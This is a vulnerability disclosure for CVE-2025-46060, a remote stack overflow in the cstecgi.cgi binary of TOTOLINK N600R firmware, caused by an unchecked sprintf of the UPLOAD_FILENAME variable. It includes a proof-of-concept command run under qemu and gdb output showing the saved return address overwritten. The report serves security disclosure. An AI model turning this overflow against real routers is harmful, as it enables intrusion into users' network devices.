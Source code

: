 # Vulnerability Report: CVE-2025-46060

## Product:
Affected Product Code Base: TOTOLINK_N600R_V4.3.0cu.7866_B20220506

Unzipped cstecgi.cgi

Download address: https://totolink.tw/support_view/N600R

Vulnerability Type: stack overflow

Attack Type: Remote


## stack overflow
![攻击点](https://i.miji.bid/2025/04/11/2ad138a4cf77b7797988f62bab06ad44.png)

At the binary file(cstecgi.cgi) address 0x00423914 (in the main function), sprintf is called. Variables such as acstack_ have clear size limits in the context, but the content_ptr required for FileName is read from the environment variable UPLOAD_FILENAME. The function call here does not check UPLOAD_FILENAME, which poses a buffer overflow risk.
![获得FILENAME](https://i.miji.bid/2025/04/11/7fb8540479f24de054af4ca47587c9fc.png)


## Simulate running in qemu
```bash
PAYLOAD=$(python3 -c "print('a'*6023+'DOIT')")
sudo chroot ./ ./qemu-mips-static\
	-E QUERY_STRING="action=upload&\"abc\" : [ &2aaaa&3aaaaaaaa&4aaaaaaaa&5aaaaaa" \
	-E UPLOAD_FILENAME="$PAYLOAD"\
	-E CONTENT_LENGTH="123" -g 123 -L ./lib \
	./web_cste/cgi-bin/cstecgi.cgi  <  ./poc
```


```bash
gdb-multiarch  ./web_cste/cgi-bin/cstecgi.cgi
```
Set a breakpoint at the address after sprintf is executed. Found that the buffer overflow is successful.

![enter image description here](https://i.miji.bid/2025/04/11/ccafab023430897fd2c42575fcf67d54.md.png)

Set a breakpoint before returning to the code block and find that the ra saved from the stack has become "DOIT"

![enter image description here](https://i.miji.bid/2025/04/11/a2d7030217022468118fc352dba55973.png)

